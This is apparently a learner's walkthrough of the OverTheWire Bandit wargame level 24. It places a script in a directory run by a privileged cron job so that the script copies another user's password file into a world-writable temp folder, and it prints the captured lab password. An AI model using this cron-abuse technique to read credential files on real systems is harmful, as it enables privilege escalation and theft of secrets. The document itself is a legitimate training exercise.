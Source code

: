 # Bandit level 24

# Objective
Look into /etx/cron.d/ for the configuration of a command being executed and find the password for bandit24

# Solution Steps
1. Log in to Bandit Server using ssh
    ssh bandit23@bandit.labs.overthewire.org -p 2220
2. Checked contents of directory
    ls
3. Found nothing, moved to cron directory
    cd /etc/cron.d
4. Checked contents of directory
    ls
5. Found cronjob_bandit24 file, examined file
    cat cronjob_bandit24 
6. Found location of shell script, examined shell script
    cat /usr/bin/cronjob_bandit24.sh
7. Script executes files in /var/spool/$myname/foo ($myname is probably bandit_) then deletes them, made temp direcotry for building script
    mkdir /tmp/script23
    cd /tmp/script23
8. Created shell script using nano
    nano script23.sh
9. Made simple script that looks for bandit24 password in usual directory, then outputs the password in new file inside temp directory
    #!/bin/bash
    
    cat /etc/bandit_pass/bandit24 > /tmp/script23/password23.txt

    ctrl + x
    Y 
    ctrl + x
10. Made script executable
    chmod +x script23.sh
11. Copied script to /var/spool/bandit24/foo and waited for cronjob_bandit24.sh to execute script23.sh
    cp script23.sh /var/spool/bandit24/foo
12. No output was detected and permission was not allowed, corrected file to have all read write permissions
    chmod 777 .
    cp script23.sh /var/spool/bandit24/foo
13. Waited a little bit and then checked current directory
    ls
14. Found password23.txt file, examined contents of file
    cat password23.txt
15. Extracted password from file
    password: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
16. Removed temp directory used for creating script
    cd ..
    rm -rf script23 

# Learned
How to make a shell script inside terminal using nano and how to give certain permissions using chmod